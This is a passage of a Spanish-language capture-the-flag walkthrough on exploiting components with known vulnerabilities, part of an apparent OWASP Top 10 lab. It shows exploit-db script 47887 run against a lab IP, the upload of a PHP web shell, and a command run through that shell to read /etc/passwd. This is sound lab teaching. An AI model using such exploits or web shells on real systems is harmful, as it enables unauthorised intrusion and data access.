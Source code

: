 [![](https://user-content.gitlab-static.net/62473106916d4417dd7948bec8495bdaf4c42c40/68747470733a2f2f692e696d6775722e636f6d2f487437756336472e706e67)](https://user-content.gitlab-static.net/62473106916d4417dd7948bec8495bdaf4c42c40/68747470733a2f2f692e696d6775722e636f6d2f487437756336472e706e67)

Afortunadamente para nosotros, el error fue causado por una línea que debería haberse comentado, por lo que es una solución fácil.

[![](https://user-content.gitlab-static.net/664abc9e005981c3d7ee48f24539dd35be2433df/68747470733a2f2f692e696d6775722e636f6d2f78316c484a6f642e706e67)](https://user-content.gitlab-static.net/664abc9e005981c3d7ee48f24539dd35be2433df/68747470733a2f2f692e696d6775722e636f6d2f78316c484a6f642e706e67)

Arreglando eso, intentemos ejecutar el programa nuevamente.

¡Auge! Tenemos RCE. Ahora es importante tener en cuenta aquí que la mayoría de los scripts solo le dirán qué argumentos necesita proporcionar, los desarrolladores de exploits rara vez le harán leer potencialmente cientos de líneas de códigos solo para descubrir cómo usar el script.

También vale la pena señalar que puede que no siempre sea tan fácil, a veces solo se le dará un número de versión como en este caso, pero otras veces es posible que deba buscar en la fuente HTML, o incluso adivinar con suerte un exploit. script, pero siendo realistas, si se trata de una vulnerabilidad conocida, probablemente haya una manera de descubrir qué versión está ejecutando la aplicación.

Eso es realmente, lo mejor de esta pieza de OWASP 10 es que el trabajo ya está hecho para nosotros, solo necesitamos hacer una investigación básica, y como probador de penetración, ya lo estás haciendo bastante. poco :).

1. ¡Lea lo anterior!

`No answer needed`

## [](#day-9-components-with-known-vulnerabilities-practi)[Día 9] Componentes con vulnerabilidades conocidas: práctica...

La siguiente es una aplicación vulnerable, toda la información que necesita para explotarla se puede encontrar en línea.

Nota: cuando encuentre el script de explotación, ponga toda su entrada entre comillas, por ejemplo, "id"

1. Cuántos caracteres hay en /etc/passwd (use wc -c /etc/passwd para obtener la respuesta)

- [Online Book Store 1.0 - Ejecución de código remoto no autenticado](https://www.exploit-db.com/exploits/47887)

```
python3 47887.py http://10.10.243.197/

> Attempting to upload PHP web shell...
> Verifying shell upload...
> Web shell uploaded to http://10.10.243.197/bootstrap/img/2s5yhbfXdq.php
> Example command usage: http://10.10.243.197/bootstrap/img/2s5yhbfXdq.php?cmd=whoami
> Do you wish to launch a shell here? (y/n): y

RCE $ wc -c /etc/passwd
1611 /etc/passwd
```
